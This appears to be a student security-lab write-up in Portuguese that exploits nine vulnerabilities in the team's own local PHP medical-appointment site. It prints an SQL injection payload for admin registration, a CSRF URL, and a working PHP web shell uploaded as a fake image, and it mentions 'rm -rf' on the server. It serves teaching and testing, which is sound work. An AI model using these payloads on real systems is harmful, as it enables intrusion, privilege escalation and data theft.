


# Introdução

Neste ficheiro são exploradas todas as vulnerabilidades descritas no ../report/report.md.

## 1. SQL Injection

Na criação da conta (register.php) colocou-se no campo "First Name" a seguinte linha

```
malicius','attack','attack@gmail.com','81dc9bdb52d04dc20036dbd8313ed055',1) -- //
```

nos seguintes campos colocaram-se informações semelhantes de forma a que eventuais comparações sejam válidas e não ocorram erros de validação.

Em termos práticos o first name tenta substituir os restantes campos introduzidos na base de dados quando se cria um novo utilizador. Com o conhecimento de como a plataforma está organizada é previsível que na base de dados os utilizadores sejam guardados por: Primeiro nome, último nome, email, password e (o menos óbvio) a 'role' que o utilizador tem na plataforma. Existindo poucas roles e sendo associadas por chaves estrangeiras, existirá uma forte chance que estas sejam formadas por números (ids baixos). Com alguns testes pode-se descobrir que o id tem de ser 1 para se ser um administrador.

Dada esta falha de segurança é possível que as passwords também estejam a ser guardadas de forma insegura. Existem várias possibilidades: guardadas de forma pura (sem hashes nem criptografia) ou é utilizado um algoritmo simples de hash. No pior dos casos é utilizado salt (dificultaria o ataque neste caso).

Com muito esforço pode-se deduzir a estrutura da tabela dos utilizadores e o ataque torna-se possível.

Após a criação da conta do atacante este é redirecionado para a página inicial (index.php) que tem permissões de administrador.

<p align="center" width="100%">
    
</p>
<p align="center">Criação da conta do atacante</p>

<p align="center" width="100%">
    
</p>
<p align="center">Após a criação este é redirecionado para a página de inicial</p>

<p align="center" width="100%">
    
</p>
<p align="center">Como o atacante manipulou as suas permissões, este consegue aceder à pagina de administração</p>

## 2. XSS

Na página de contactos (contact.php) podem ser introduzidas as tags 'script' no formulário. Após a submissão, este é visível na página de administrador, o que significa que se um administrador entrar na página de administração o script introduzido irá ser executado.
Neste caso, o script faz redirect para a pagina do google, mas podia ser utilizado para fazer redirect para uma página de phishing por exemplo.

<p align="center" width="100%">
    
</p>
<p align="center">Introdução do código no formulário.</p>

<p align="center" width="100%">
    
</p>
<p align="center">O problema reportado é aceite.</p>

<p align="center" width="100%">
    
</p>
<p align="center">O administrador entra na sua conta.</p>

<p align="center" width="100%">
    
</p>
<p align="center">O administrador abre a página de administração e é redirecionado para a página do google.</p>

## 3. Passwords guardadas com pouca segurança

Admitindo que o atacante teve acesso indevido à base de dados (por meio de outra vulnerabilidade como por exemplo a das imagens) e consegue transferir todos os dados da tabela dos utilizadores, é fácil para o atacante deduzir que elas estão guardadas em MD5 e que não contêm salt. O ataque torna-se trivial porque existem serviços na internet que fazem reversão de hashes de volta ao texto original.
Imaginando que o atacante teve acesso à seguinte linha da tabela dos utilizadores

```
Mario,Italiano,luigi@gmail.com,81dc9bdb52d04dc20036dbd8313ed055,NULL
```

Não existe sequer a necessidade de se implementar um algoritmo por força bruta que descubra o texto que gera a hash `81dc9bd...`. Como já foi referido, basta aceder a uma look up table (LUT) online por exemplo esta [página](https://md5.gromweb.com/) e descobre-se rapidamente que a password é 1234.

## 4. Transporte desprotegido de credenciais

A ligação entre o cliente e servidor é feita pelo protocolo http. O seguinte ataque foi feito no localhost (mas funcionaria de forma igual em redes diferentes).

Imaginemos que o atacante é um "man in the middle" e está à escuta (por exemplo com o wireshark) a ler os pacotes que passam pela rede à qual o seu computador está ligado. Entretanto um cliente faz login na página e o atacante observa pacotes relacionados com a plataforma e verifica que existe um POST no login.php, no qual é possível ver o email e a password.

<p align="center" width="100%">
    
</p>
<p align="center" width="100%">
    
</p>

## 5. Insuficiente expiração de sessões

O atacante precisa de ter acesso à máquina da vítima onde foi feita a sessão na plataforma.
Tendo acesso físico, basta aceder à página da plataforma e é trivial obter dados pessoais da vítima. É muito provável que o atacante nesta situação já conheça dados pessoais da vítima, no entanto pode ter acesso a outros dados tais como a lista de consultas marcadas no passado.

## 6. Exposição de conteúdo a utilizadores sem permissões suficientes

Numa primeira fase, o atacante pode utilizar uma ferramenta que faça brute force das páginas que o servidor tem disponíveis. Consegue muito rapidamente descobrir que existe uma página chamada admin.php (basta pegar numa lista de palavras pequenas e terminá-las com a extensão php pois todas as páginas têm esta extensão).

Descobre que a página retorna um código 302 e que foi redirecionada para o index. Isto acontece porque o atacante não tem permissões. Existe agora a possibilidade das permissões serem enviadas diretamente no GET. Partindo do pressuposto que as permissões são enviadas no GET o atacante tem duas possibilidades: tenta ter acesso a um computador com sessão de administrador iniciada e vê facilmente que basta aceder ao URL admin.php?permission=1 (pode ser muito difícil de acontecer) ou tenta obter o URL pela exploração da vulnerabilidade de XSS na página dos contactos (contact.php), onde basta injetar um código que envie para o atacante o link da página de administração com permissões. Caso o XSS tenha sido corrigido torna-se mais difícil de se executar.

## 7. CSRF

Um atacante pode facilmente verificar que quando uma consulta é marcada, os dados da mesma são enviados através de um GET. Este facto deixa margem ao atacante de através de um URL poder marcar uma consulta.

Tendo esta noção, o atacante verifica ainda que no GET não é enviado nenhum dado que indentifica quem marcou a consulta. Daqui pode deduzir que a informação que indentifica o remetente é provavelmente um token de sessão.

Daqui pode partir-se do princípio que se, um utilizador fez login na plataforma é possível marcar uma consulta através de um link. O atacante alicia um utilizador da plataforma a aceder ao seguinte url.

```
http://localhost:9005/appointment.php?spec=1&doctor=5&date=2022-11-17%209:00:00
```

<p align="center" width="100%">
    
</p>
<p align="center">O utilizador por ingenuidade acede ao URL e uma consulta é marcada sem o seu consentimento.</p>

## 8. Previsibilidade do código das consultas

<p align="center" width="100%">
    
</p>
<p align="center">O atacante marca uma consulta, verifica que o número é baixo.</p>

<p align="center" width="100%">
    
</p>
<p align="center">Marca outra consulta e verifica que o valor foi incrementado em uma unidade.</p>

A partir daqui o atacante deduz que os ids das consultas são sequenciais.

<p align="center" width="100%">
    
</p>
<p align="center">O atacante acede ao seu perfil e experimenta introduzir um id de um relatório inferior ao que recebeu.</p>

<p align="center" width="100%">
    
</p>
<p align="center">O atacante teve finalmente acesso a uma consulta que não lhe pertence.</p>

## 9. Execução de código remoto através de upload de ficheiros

<p align="center" width="100%">
    
</p>
<p align="center">Inicialmente, o atacante entra na sua página de perfil.</p>

<p align="center" width="100%">
    
</p>

O atacante envia um ficheiro chamado attack.php.png com o seguinte código. ([fonte](https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/simple-shell.php))

```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Este código funciona como um backdoor onde comandos que são executados no servidor são passados como argumento no GET do ficheiro injetado.
O servidor aceita a imagem e a partir daqui a backdoor está instalada no servidor, no qual o atacante consegue correr comandos.

<p align="center" width="100%">
    
</p>
<p align="center">De seguida obtém o url da suposta imagem através da sua página de perfil.</p>

```
./images/user_images/Mario1668380140.php
```

Agora basta aceder à pagina `localhost:9005/images/user_images/Mario1668380140.php` e o código injetado é executado.
Neste exemplo, o atacante com poucos comandos consegue visualizar o sistema de ficheiros e ter acesso ao código fonte da plataforma, o que é perigoso porque pode ser utilizado para explorar outras vulnerabilidades.

<p align="center" width="100%">
    
</p>
<p align="center">Diretórios (ls ../../).</p>

<p align="center" width="100%">
    
</p>
<p align="center">Código fonte (cat ../../database/Database.php).</p>

Outros tipos de ataque mais graves poderiam ser por exemplo a utilização do comando `rm -rf` no servidor, que eliminava todos os conteúdos do diretório e subdiretórios, que consequentemente levaria a perda total de disponibilidade (availability) da plataforma.
